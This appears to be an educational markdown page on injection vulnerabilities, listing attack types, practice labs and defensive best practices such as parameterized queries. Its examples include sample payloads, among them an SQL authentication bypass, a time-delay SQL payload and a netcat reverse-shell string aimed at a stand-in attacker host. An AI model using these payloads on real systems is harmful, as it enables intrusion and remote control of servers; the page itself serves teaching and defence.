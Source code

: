 # Injection

## What is Injection

Injection attacks occur when untrusted input is sent to a code interpreter as part of a command or query. The attacker's input tricks the interpreter into executing unintended commands or accessing unauthorized data.

Injection vulnerabilities are caused by insecure handling of user-supplied data within interpreters (SQL, shell, LDAP, NoSQL, etc.). These vulnerabilities are often found in legacy systems, weakly validated inputs, or poorly written parsing logic. Advanced exploitation can result in full system compromise, lateral movement, or data exfiltration.

## Common Examples

- Putting code in a search bar – Can crash the site or give private info.
- Using fake input in a contact form – Could send harmful commands to the server.
- Entering code in a comment section – Might make the page act weird or dangerous.
- SQL Injection (SQLi) – e.g., SELECT * FROM users WHERE name = '$input'. An attacker supplies input like ' OR 1=1-- to bypass authentication.
- Command Injection – e.g., calling os.system("ping " + userInput), which allows execution of arbitrary system commands.
- LDAP Injection – Manipulating LDAP queries, e.g., (&(user=$input)(password=...)) with * or )(uid=*).
- XPath Injection – Exploiting XML query paths by modifying input to access unauthorized nodes.
- NoSQL Injection – e.g., injecting JSON-like structures into MongoDB queries to bypass access controls.
- Time-based Blind SQL Injection – e.g., using payloads like '; IF (1=1) WAITFOR DELAY '0:0:5'-- to infer true/false based on response time.
- Bash Command Injection – Payloads like ; nc attacker.com 4444 -e /bin/bash in vulnerable shell execution points.
- Stored Injection in an API – Injecting malicious SQL/commands into backend via seemingly safe API fields.
- Object Injection in PHP – Crafting serialized PHP objects to trigger magic methods leading to RCE or file disclosure.
- Polyglot Payloads – Payloads crafted to simultaneously exploit multiple interpreters (e.g., JavaScript and SQL in hybrid injection scenarios).

## Practice Exploiting Injection

### PortSwigger

PortSwigger has multiple labs to see this vulnerability in action. The labs are online and require an account. Here are some labs:

- [SQL Injection](https://portswigger.net/web-security/all-labs#sql-injection)
- [NoSQL Injection](https://portswigger.net/web-security/all-labs#nosql-injection)
- [XML External Entity (XXE) Injection](https://portswigger.net/web-security/all-labs#xml-external-entity-xxe-injection)

### OWASP Juice Shop

The OWASP Juice Shop is an open-source project that is intentionally vulnerable. It has many vulnerabilities and makes finding them a bit of a game using their scoreboard page. It can be accessed with Heroku or using Docker. I ran it using Docker and I seem to recall that one of the vulnerabilities will not work properly if you use Heroku. More information on the project and how to run it can [be found here](https://owasp.org/www-project-juice-shop/).

### TryHackMe

TryHackMe has a couple rooms dedicated to this subject. The rooms are online and require an account. Here are some links to rooms that talk about Injection:

- [OWASP Top 10 - 2021](https://tryhackme.com/room/owasptop102021)
- [Injection Attacks Module](https://tryhackme.com/module/injection-attacks)
- [Advanced SQL Injection](https://tryhackme.com/room/advancedsqlinjection)
- [SQL Injection Lab](https://tryhackme.com/room/sqlilab)
- [SQL Injection](https://tryhackme.com/room/sqlinjectionlm)

## Best Practices

| Best Practice | Why It Matters |
| ------------- | -------------- |
| Use Parameterized Queries (Prepared Statements) | Prevents attackers from injecting malicious code by separating data from commands. |
| Employ Input Validation and Sanitization | Ensures only expected data is processed, reducing the risk of malicious input. |
| Implement Least Privilege Access Controls | Limits the potential impact if an injection attack succeeds by restricting user permissions. |
| Avoid Dynamic SQL Generation | Reduces the risk of injection by not constructing queries with user input directly. |
| Use ORM Frameworks with Caution | While ORMs can help prevent injection, improper use can still lead to vulnerabilities. |
| Escape User Input Appropriately | Escaping special characters can prevent input from being interpreted as code. |
| Regularly Update and Patch Systems | Keeps systems protected against known vulnerabilities that could be exploited via injection. |
| Implement Web Application Firewalls (WAFs) | Provides an additional layer of defense by filtering out malicious input before it reaches the application. |
| Conduct Regular Security Testing | Identifies potential injection vulnerabilities before they can be exploited. |
| Educate Developers on Secure Coding Practices | Awareness and training can prevent the introduction of injection vulnerabilities during development. |

## Summary

Like many of the vulnerabilities in the OWASP Top Ten, the Injection vulnerability stems from trusting user data. All input from external systems and user data should be cleaned and sanitized. Until recently, this was the top item on the OWASP Top Ten list. This vulnerability can range from getting account access, getting unauthorized data and remote code execution. Do not trust user data.

